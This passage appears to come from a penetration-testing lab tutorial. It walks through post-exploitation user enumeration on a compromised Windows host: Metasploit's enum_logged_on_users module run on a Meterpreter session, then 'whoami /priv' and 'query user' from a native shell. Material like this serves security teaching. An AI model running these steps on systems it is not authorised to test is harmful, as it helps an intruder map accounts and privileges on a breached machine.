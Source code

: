#### Step 3: Enumerating Logged-On Users Using Metasploit

Background the session:

```bash
background
```

Search for the **enum_logged_on_users** module:

```bash
search logged_on
```

Use the module:

```bash
use post/windows/gather/enum_logged_on_users
```

Set the **Meterpreter session ID**:

```bash
set session 1
```

Run the module:

```bash
run
```

#### Step 4: Return to the Meterpreter Session

Return to the **Meterpreter session** to continue manual enumeration:

```bash
sessions 1
```

### ### Performing User & Group Enumeration Manually

Switch to a **native shell** to perform manual enumeration:

```bash
shell
```

Run the following commands to enumerate users, groups, and privileges:

- **Check privileges** of the current user:

    ```bash
    whoami /priv
    ```

- **Query logged-on users**:

    ```bash
    query user
    ```
